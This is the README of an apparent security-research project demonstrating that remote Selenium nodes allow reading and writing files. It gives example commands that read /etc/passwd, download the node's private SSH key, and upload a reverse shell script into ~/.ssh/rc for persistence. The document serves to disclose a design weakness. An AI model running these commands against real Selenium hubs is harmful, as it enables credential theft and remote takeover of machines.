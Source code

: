 # selenium-node-takeover-kit
These examples are to demonstrate possible issues with Selenium’s current design and configuration.

When a Selenium test interacts with a remote web driver, it can do the same things a user interacting with a local browser can do on the remote selenium node. Namely reading files off the remote node to the local tester
```bash
examples/selenium_node_cat.py -h http://selenium-hub.lan:4444/wd/hub -r /etc/passwd
examples/selenium_node_download.py -h http://selenium-hub.lan:4444/wd/hub -r ~/.ssh/id_rsa -l ./nodes_rsa
```

and writing files to the remote node from the local tester
```bash
examples/selenium_node_upload.py -h http://selenium-hub.lan:4444/wd/hub -r ~/.ssh/rc -l ./reverse_shell.sh
```
in the context of the running service. According to Selenium, this behavior is by design (see https://github.com/JonStratton/selenium-node-takeover-kit/issues/1) and that not exposing the testing hub to the internet and not storing secrets on the hub is sufficient. I believe these abilities are still dangerous and should be something that can be turned off, and turned off by default.
